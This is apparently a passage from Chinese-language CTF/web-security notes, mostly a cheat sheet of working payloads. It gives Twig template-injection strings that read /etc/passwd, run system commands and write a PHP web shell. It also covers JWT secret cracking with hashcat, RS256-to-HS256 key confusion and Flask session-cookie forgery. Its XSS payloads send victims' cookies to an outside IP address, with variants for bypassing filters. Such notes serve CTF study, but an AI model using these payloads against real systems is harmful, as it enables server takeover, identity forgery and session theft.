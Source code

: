 ```py
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(20)}}
```

```py
#常见payload
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")}}
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```

## jwt

网站[https://jwt.io/](https://jwt.io/)

工具

- hashcat
`hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5MjU0NzEyOCwiZXhwIjoxNjkyNTU0MzI4LCJuYmYiOjE2OTI1NDcxMjgsInN1YiI6InVzZXIiLCJqdGkiOiIxMTBjMzkyMjQ2NTI0ZTViZTgyNDgwMmM5YTJjNzYwYiJ9.wgVjJpPREW4k2YfHHF7BX2iUlJYeQO4XOM2W5kEY0Q4 jwt.secrets.list`

- jwt_tool
- jwt-cracker
- flask-session-cookie

JWT的本质就是一个字符串，它是将用户信息保存到一个Json字符串中，然后进行编码后得到一个JWT token，并且这个JWT token带有签名信息，接收后可以校验是否被篡改，所以可以用于在各方之间安全地将信息作为Json对象传输。

JWT由3部分组成：标头(Header)、有效载荷(Payload)和签名(Signature)。在传输的时候，会将JWT的3部分分别进行Base64编码后用.进行连接形成最终传输的字符串
`JWTString = Base64(Header).Base64(Payload).HMACSHA256(base64UrlEncode(header) + “.” + base64UrlEncode(payload), secret)`

公私钥泄露可以伪造身份

可以根据公钥，修改算法从 非对称算法（比如RS256） 到 对称密钥算法（HS256）
双方都使用公钥验签，顺利篡改数据

还有老生常谈的session伪造,记得注意python环境,另外可能需要读取到`/sys/class/net/eth0/address`mac地址来获得secret_key
`python flask_session_cookie_manager3.py decode -c "session值" -s "key值"`
`python flask_session_cookie_manager3.py encode -s "key值" -t "我们需要伪造的值"`

## xss

最常见的利用,插入`<script>`标签

`<script>document.location.href='http://43.143.239.235/cdd.php?cookie='+document.cookie</script>`

过滤`<script>`标签
可以用`<body>`标签
`<body onload="document.location.href='http://43.143.239.235/cdd.php?cookie='+document.cookie"></body>`

过滤`<img>`标签
还是body

过滤空格
可以用`tab`键或者注释`\**\`或者`\`代替
`<body/**/onload="document.location.href='http://43.143.239.235/cdd.php?cookie='+document.cookie"></body>`

发送源码
